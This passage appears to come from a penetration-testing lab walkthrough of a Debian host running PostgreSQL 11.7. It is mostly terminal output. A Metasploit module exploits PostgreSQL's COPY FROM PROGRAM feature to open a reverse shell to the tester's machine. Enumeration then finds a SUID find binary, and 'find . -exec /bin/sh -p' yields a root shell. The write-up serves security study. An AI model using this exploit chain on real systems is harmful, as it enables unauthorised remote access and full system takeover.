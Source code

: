 ```bash
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.118.3:5437 
[*] 192.168.120.118:5437 - 192.168.120.118:5437 - PostgreSQL 11.7 (Debian 11.7-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit
[*] 192.168.120.118:5437 - Exploiting...
[+] 192.168.120.118:5437 - 192.168.120.118:5437 - wpvZUV8OAc dropped successfully
[+] 192.168.120.118:5437 - 192.168.120.118:5437 - wpvZUV8OAc created successfully
[+] 192.168.120.118:5437 - 192.168.120.118:5437 - wpvZUV8OAc copied successfully(valid syntax/command)
[+] 192.168.120.118:5437 - 192.168.120.118:5437 - wpvZUV8OAc dropped successfully(Cleaned)
[*] 192.168.120.118:5437 - Exploit Succeeded
[*] Command shell session 1 opened (192.168.118.3:5437 -> 192.168.120.118:49250) at 2020-07-20 11:59:43 -0400

whoami
postgres
Escalation
SUID
As part of our enumeration process, we use find to locate SUID programs and interestingly discover that the find program itself is SUID.

postgres@debian:/var/lib/postgresql/11/main$ find / -perm -u=s -type f 2>/dev/null
<esql/11/main$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
postgres@debian:/var/lib/postgresql/11/main$
We can easily abuse this misconfiguration to obtain a root shell.

postgres@debian:/var/lib/postgresql/11/main$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```
